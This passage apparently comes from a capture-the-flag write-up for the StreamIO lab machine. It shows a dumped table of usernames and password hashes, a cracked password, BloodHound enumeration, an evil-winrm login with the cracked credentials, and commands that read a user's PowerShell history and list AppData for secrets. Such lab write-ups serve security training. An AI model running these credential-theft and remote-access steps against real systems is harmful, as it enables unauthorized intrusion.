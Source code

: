 ```bash

id          username                       password                       
----------- ------------------------------ ------------------------------
          1 nikk37                         389d14cb8e4e9b94b137deb1caf061
          2 yoshihide                      b779ba15cedfd22a023c4d8bcf5f23
          3 James                          c660060492d9edcaa8332d89c99c92
          4 Theodore                       925e5408ecb67aea449373d668b735
          5 Samantha                       083ffae904143c4796e464dac33c1f
          6 Lauren                         08344b85b329d7efd611b7a7743e8a
          7 William                        d62be0dc82071bccc1322d64ec5b6c
          8 Sabrina                        f87d3c0d6c8fd686aacc6627f1f493

```

If we exit, and look at available users on the host, we see nikk37:

![image.png]({{ site.baseurl }}/assets/streamio/image%2036.png)

Let’s go on crackstation and see if the hash is crackable

![image.png]({{ site.baseurl }}/assets/streamio/image%2037.png)

```bash
get_dem_girls2@yahoo.com
```

And if we search up nikk37 on bloodhound, we see that he is a PSRemote user:

![image.png]({{ site.baseurl }}/assets/streamio/image%2038.png)

Let’s try evil-winrm with his account:

```bash
evil-winrm -u nikk37 -p 'get_dem_girls2@yahoo.com' -i 10.10.11.158
```

![image.png]({{ site.baseurl }}/assets/streamio/image%2039.png)

We are on. We see we do not have any additional privileges.

Let’s check the user’s powershell history:

```bash
type C:\Users\nikk37\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Nothing. Browsing around we do not see any unique binaries in the Program Files dir. Let’s check our AppData directory:

```bash
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hsl        2/22/2022   1:57 AM                Application Data
d--hsl        2/22/2022   1:57 AM                History
d-----        9/15/2018  12:19 AM                Microsoft
d-----        2/22/2022   2:40 AM                Mozilla
d-----       10/15/2025  11:42 AM                Temp
d--hsl        2/22/2022   1:57 AM                Temporary Internet Files
d-----        2/22/2022   2:42 AM                VirtualStore

```
